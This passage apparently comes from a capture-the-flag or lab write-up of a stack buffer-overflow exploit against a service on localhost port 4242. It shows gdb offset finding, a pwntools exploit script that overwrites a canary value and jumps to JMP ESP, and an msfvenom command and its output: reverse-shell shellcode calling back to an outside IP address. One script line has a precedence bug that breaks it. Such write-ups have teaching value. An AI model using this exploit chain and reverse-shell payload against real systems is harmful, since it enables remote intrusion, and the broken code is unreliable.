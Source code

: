 ```
#buf += 'A' * (199-len(buf))       # fill out the buffer to 200 bytes
buf += 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA'

```

We exploit the service and find the EIP value is set to: 0x41734141 which is found at an offset of 4 into our buffer.

```
Stopped reason: SIGSEGV
0x41734141 in ?? ()
gdb-peda$ pattern_offset 0x41734141
1098072385 found at offset: 4
```

Our exploit now should be able to send execution to our buffer of “A”s in memory by using the JMP ESP instruction:

```
#!/usr/bin/python
from pwn import *

HOST = '127.0.0.1'
PORT = 4242

buf =  'A' * 103 + p32(0xe4ffffe4) # 103 A's then a stack canary
buf += 'A' * 4   + p32(0x80493b6)  # jmp esp
buf += 'A' * 199-len(buf)        # fill out the buffer to 200 bytes

conn = remote(HOST,PORT)
banner = conn.recvuntil('logged in users')
print "[*] Got banner, sending hidden command..."
conn.sendline('X')
banner = conn.recvuntil('protected!')
print "[*] Got hidden prompt, sending payload..."
conn.sendline(buf)

```

We try it in a debugger and sure enough, our “A”s are now getting executed.

It’s time to try some shellcode, I use “msfvenom” from the Metasploit toolset to generate some shellcode. I stick with x86 architecture here because the binary is x86. If this pathway doesn’t work we’re going to have to setup a Qemu VM for ARM but let’s cross that bridge when we get there!

I’m going to use a reverse TCP shell here as it’s going to be reliable from my experience. I point it back to my own EC2 instance.

```
root@kali:~# msfvenom -f py -p linux/x86/shell_reverse_tcp LHOST=52.64.97.221 LPORT=4443 
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
buf =  ""
buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x34"
buf += "\x40\x61\xdd\x68\x02\x00\x11\x5b\x89\xe1\xb0\x66\x50"
buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
buf += "\x0b\xcd\x80"
```
